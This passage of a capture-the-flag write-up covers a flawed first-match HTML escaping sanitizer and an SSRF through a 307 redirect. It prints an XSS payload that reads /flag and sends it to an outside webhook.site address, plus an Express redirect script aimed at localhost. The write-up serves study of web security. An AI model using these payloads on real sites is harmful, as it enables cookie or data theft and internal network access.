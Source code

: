 > **actf{w4ke_up_to_th3_m0on_6bdc10d7c6d5}**
{: .prompt-info  }

___

## Xtra Salty Sardines

Pay attention to the flowing lines:
```js
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```
I abuse that:

> The `replace()` method returns a new string with some or all matches of a `pattern` replaced by a replacement. The `pattern` can be a string or a `RegExp`, and the replacement can be a string or a function called for each match. If pattern is a **string**, only the **first** occurrence will be replaced.
{: .prompt-tip  }

Payload:
```html
'<></h1><script>var x = new XMLHttpRequest;x = open('GET', '/flag'); x.onload = function() {navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText)}; x.send();</script>
```

> **actf{those_sardines_are_yummy_yummy_in_my_tummy}**
{: .prompt-info  }


___

## School unblocker


Use [this](https://stackoverflow.com/questions/38810114/node-js-with-express-how-to-redirect-a-post-request#:~:text=app.post(%27/%27%2C%20function(req%2C%20res)%20%7B%0A%20%20res.redirect(307%2C%20%27/test%27)%3B%0A%7D)%3B).

Exploit script:

```js
const express = require('express')

const app = express();
const port = Number(process.env.PORT) || 8888;


app.post("/", (req, res) => {

    res.redirect(307, "http://127.0.0.1:8080/flag")

});

app.listen(port, () => {
    console.log(`Server listening on port ${port}`);
});
```

